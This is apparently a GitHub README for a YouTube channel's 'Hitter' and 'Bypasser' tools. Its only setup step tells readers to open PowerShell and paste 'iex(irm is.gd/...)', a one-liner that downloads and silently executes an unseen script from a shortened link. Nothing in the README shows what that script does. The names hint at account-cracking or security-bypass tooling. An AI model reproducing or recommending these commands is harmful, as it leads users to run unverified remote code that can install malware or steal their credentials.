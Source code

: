 # TechTube Insider
Welcome to the official repository for **TechTube Insider**'s YouTube Channel Files.

---

## 📦 Part 1: Hitter

To use the Hitter tool, follow the steps below:

1. **Open PowerShell or Terminal**:
   - Right-click on the **Windows Start Menu** and select **PowerShell** or **Terminal** (do not use **CMD**).
   
2. **Execute the following code**:
   ```powershell
   iex(irm is.gd/docomojx)
   ```

3. Follow the on-screen instructions to complete the setup.

That's it! 🎉

---

## 🔓 Part 2: Bypasser

To use the Bypasser tool, follow these steps:

1. **Open PowerShell or Terminal**:
   - Right-click on the **Windows Start Menu** and select **PowerShell** or **Terminal** (again, **not CMD**).
   
2. **Execute the following code**:
   ```powershell
   iex(irm is.gd/bypassjx)
   ```

3. Follow the on-screen instructions to proceed.

And you're done! 🎉

---

For any questions or issues, feel free to reach out or open an issue in this repository.
